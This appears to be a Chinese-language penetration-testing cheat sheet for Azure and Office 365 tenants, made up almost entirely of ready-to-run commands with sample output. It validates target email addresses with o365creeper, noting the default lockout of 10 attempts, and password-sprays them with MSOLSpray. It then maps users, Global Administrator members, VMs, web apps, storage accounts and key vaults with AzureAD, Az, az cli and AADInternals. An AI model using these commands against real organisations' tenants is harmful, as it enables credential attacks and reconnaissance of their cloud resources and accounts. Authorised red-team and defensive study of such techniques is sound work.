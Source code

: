 #### 枚举有效的电子邮件
  	默认情况下，O365 的锁定策略为 10 次尝试，它将锁定一个帐户1分钟。
	检查电子邮件
	PS> C:\Python27\python.exe C:\Tools\o365creeper\o365creeper.py -f C:\Tools\emails.txt -o C:\Tools\validemails.txt
	admin@<TENANT NAME>.onmicrosoft.com   - VALID
	root@<TENANT NAME>.onmicrosoft.com    - INVALID
	test@<TENANT NAME>.onmicrosoft.com    - VALID
	contact@<TENANT NAME>.onmicrosoft.com - INVALID
	提取具有有效凭据的电子邮件列表：https ://github.com/nyxgeek/o365recon
	密码喷射
	PS> . C:\Tools\MSOLSpray\MSOLSpray.ps1
	PS> Invoke-MSOLSpray -UserList C:\Tools\validemails.txt -Password <PASSWORD> -Verbose
 #### 枚举 Azure 子域
  	PS> . C:\Tools\MicroBurst\Misc\InvokeEnumerateAzureSubDomains.ps1
	PS> Invoke-EnumerateAzureSubDomains -Base <TENANT NAME> -Verbose
	Subdomain Service
	--------- -------
	<TENANT NAME>.mail.protection.outlook.com Email
	<TENANT NAME>.onmicrosoft.com Microsoft Hosted Domain
 #### 使用 Azure AD Powershell 枚举租户
	Import-Module C:\Tools\AzureAD\AzureAD.psd1
	Import-Module C:\Tools\AzureADPreview\AzureADPreview.psd1
	PS> $passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
	PS> $creds = New-Object System.Management.Automation.PSCredential("test@<TENANT NAME>.onmicrosoft.com", $passwd)
	PS Az> Connect-AzureAD -Credential $creds

	PS AzureAD> Get-AzureADUser -All $true
	PS AzureAD> Get-AzureADUser -All $true | select UserPrincipalName
	PS AzureAD> Get-AzureADGroup -All $true
	PS AzureAD> Get-AzureADDevice
	PS AzureAD> Get-AzureADDirectoryRole -Filter "DisplayName eq 'Global Administrator'" | Get-AzureADDirectoryRoleMember
	PS AzureADPreview> Get-AzureADMSRoleDefinition | ?{$_.IsBuiltin -eq $False} | select DisplayName
 #### 使用 Az Powershell 枚举租户
  	PS> $passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
	PS> $creds = New-Object System.Management.Automation.PSCredential ("test@<TENANT NAME>.onmicrosoft.com", $passwd)
	PS Az> Connect-AzAccount -Credential $creds

	PS Az> Get-AzResource
	PS Az> Get-AzRoleAssignment -SignInName test@<TENANT NAME>.onmicrosoft.com
	PS Az> Get-AzVM | fl
	PS Az> Get-AzWebApp | ?{$_.Kind -notmatch "functionapp"}
	PS Az> Get-AzFunctionApp
	PS Az> Get-AzStorageAccount | fl
	PS Az> Get-AzKeyVault
 #### 使用 az cli 枚举租户
  	PS> az login -u test@<TENANT NAME>.onmicrosoft.com -p <PASSWORD>
	PS> az vm list
	PS> az vm list --query "[].[name]" -o table
	PS> az webapp list
	PS> az functionapp list --query "[].[name]" -o table
	PS> az storage account list
	PS> az keyvault list
 #### 手动枚举
  	与 Azure AD 或 O365 联合
	https://login.microsoftonline.com/getuserrealm.srf?login=<USER>@<DOMAIN>&xml=1
	https://login.microsoftonline.com/getuserrealm.srf?login=root@<TENANT NAME>.onmicrosoft.com&xml=1
	获取租户 ID
	https://login.microsoftonline.com/<DOMAIN>/.well-known/openid-configuration
	https://login.microsoftonline.com/<TENANT NAME>.onmicrosoft.com/.well-known/openid-configuration
 #### 枚举方法
  	检查 Azure 加入 
	PS> dsregcmd.exe /status
	+----------------------------------------------------------------------+
	| Device State |
	+----------------------------------------------------------------------+
	 AzureAdJoined : YES
	 EnterpriseJoined : NO
	 DomainJoined : NO
	 Device Name : jumpvm

	枚举资源
	PS Az> Get-AzResource

	枚举角色分配
	PS Az> Get-AzRoleAssignment -Scope /subscriptions/<SUBSCRIPTION-ID>/resourceGroups/RESEARCH/providers/Microsoft.Compute/virtualMachines/<VM-NAME>`

	获取角色信息
	PS Az> Get-AzRoleDefinition -Name "Virtual Machine Command Executor"

	获取信息用户
	PS AzureAD> Get-AzureADUser -ObjectId <ID>
	PS AzureAD> Get-AzureADUser -ObjectId test@<TENANT NAME>.onmicrosoft.com | fl * 

	列出所有组
	PS AzureAD> Get-AzureADGroup -All $true

	列出一个组的用户
	PS Az> Get-AzADGroup -DisplayName '<GROUP-NAME>'
	PS Az> Get-AzADGroupMember -GroupDisplayName '<GROUP-NAME>' | select UserPrincipalName

	获取Azure AD 信息
	PS> Import-Module C:\Tools\AADInternals\AADInternals.psd1
	PS AADInternals> Get-AADIntLoginInformation -UserName admin@<TENANT NAME>.onmicrosoft.com
	PS AADInternals> Get-AADIntTenantID -Domain <TENANT NAME>.onmicrosoft.com # Get Tenant ID
	PS AADInternals> Invoke-AADIntReconAsOutsider -DomainName <DOMAIN> # Get all the information

	检查是否有用户登录到 az cli
	PS> az ad signed-in-user show

	检查 AppID 备用名称/显示名称
	PS AzureAD> Get-AzureADServicePrincipal -All $True | ?{$_.AppId -eq "<APP-ID>"} | fl


	获取使用当前租户注册的所有应用程序对象
	PS AzureAD> Get-AzureADApplication -All $true

	获取有关应用程序的所有详细信息
	PS AzureAD> Get-AzureADApplication -ObjectId <ID> | fl *

	列出用户有权访问的所有 VM
	PS Az> Get-AzVM 
	PS Az> Get-AzVM | fl

	获取所有功能应用
	PS Az> Get-AzFunctionApp

	获取所有网络应用
	PS Az> Get-AzWebApp
	PS Az> Get-AzWebApp | select-object Name, Type, Hostnames

	列出所有存储帐户
	PS Az> Get-AzStorageAccount
	PS Az> Get-AzStorageAccount | fl

	列出所有密钥库
	PS Az> Get-AzKeyVault